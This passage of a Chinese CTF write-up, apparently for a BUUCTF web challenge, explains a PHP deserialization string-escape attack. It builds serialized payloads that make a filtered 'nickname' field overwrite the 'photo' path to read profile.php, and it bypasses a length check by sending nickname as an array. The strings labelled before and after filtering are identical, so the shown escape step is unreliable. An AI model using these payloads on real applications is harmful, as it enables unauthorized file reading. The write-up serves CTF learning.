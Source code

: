 那么现在需要构造反序列化的字符串:

```
a:4:{s:5:"phone";s:11:"13333333333";s:5:"email";s:11:"abc@123.com";s:8:"nickname";s:1:"a";s:5:"photo";s:39:"upload/394659692a460258b45a99f1424ea357";}
a:4:{s:5:"phone";s:11:"13333333333";s:5:"email";s:11:"abc@123.com";s:8:"nickname";s:1:"a";s:5:"photo";s:39:"upload/394659692a460258b45a99f1424ea357";}
array(4) { ["phone"]=> string(11) "13333333333" ["email"]=> string(11) "abc@123.com" ["nickname"]=> string(1) "a" ["photo"]=> string(39) "upload/394659692a460258b45a99f1424ea357" }
array(4) { ["phone"]=> string(11) "13333333333" ["email"]=> string(11) "abc@123.com" ["nickname"]=> string(1) "a" ["photo"]=> string(39) "upload/394659692a460258b45a99f1424ea357" }
```

现在还有一个问题,就是我们用来构造逃逸字符串的`nickname`有长度限制:

对`nickname`的长度限制使用数组来绕过 : `nickname[]=xxxxxxxxxxxxxxx` 这样以来检测其长度是会默认为1

![image-20221023224746419](/images/buuctf-web2/image-20221023224746419.png)

下面开始构建字符串: (脚本在最后面)

```
$profile['nickname'][] = ";}s:5:"photo";s:11:"profile.php";}
假设我们要读取 profile.php

序列化成字符串,过滤前
a:4:{s:5:"phone";s:11:"13333333333";s:5:"email";s:11:"abc@123.com";s:8:"nickname";a:1:{i:0;s:35:"";}s:5:"photo";s:11:"profile.php";}";}s:5:"photo";s:39:"upload/394659692a460258b45a99f1424ea357";}
过滤后的字符串
a:4:{s:5:"phone";s:11:"13333333333";s:5:"email";s:11:"abc@123.com";s:8:"nickname";a:1:{i:0;s:35:"";}s:5:"photo";s:11:"profile.php";}";}s:5:"photo";s:39:"upload/394659692a460258b45a99f1424ea357";}
过滤前字符串反序列化
array(4) { ["phone"]=> string(11) "13333333333" ["email"]=> string(11) "abc@123.com" ["nickname"]=> array(1) { [0]=> string(35) "";}s:5:"photo";s:11:"profile.php";}" } ["photo"]=> string(39) "upload/394659692a460258b45a99f1424ea357" }
过滤后字符串反序列化
array(4) { ["phone"]=> string(11) "13333333333" ["email"]=> string(11) "abc@123.com" ["nickname"]=> array(1) { [0]=> string(35) "";}s:5:"photo";s:11:"profile.php";}" } ["photo"]=> string(39) "upload/394659692a460258b45a99f1424ea357" }
```
